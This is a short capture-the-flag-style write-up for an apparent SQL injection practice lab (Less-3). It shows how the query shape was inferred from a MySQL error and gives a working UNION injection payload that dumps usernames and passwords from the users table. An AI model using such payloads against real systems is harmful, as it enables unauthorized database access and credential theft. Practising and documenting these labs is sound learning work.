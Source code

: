 Hello guys,

This is the write-up for Less-3 'GET - Error based - Single quotes with twist - string'.

So getting started,

using a single quote and comment after the numeric parameter for id
``` ?id = 1' -- -```,
an error is returned.
``` You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1 ```

so the input after id is not going into a simple ```... WHERE id = '<input>' ...;```

So trying out an alternate possibility where the input might be going into a ```... WHERE id = ('<input>')...;```

We can end the numeric paramenter after id with a ```')``` and then use UNION to execute another query which will help us.

Using ``` [URL]/?id=-1') UNION SELECT 1, group_concat(username,0x7c,password),3 FROM users -- - ```,

we get the login dump printed on the site.


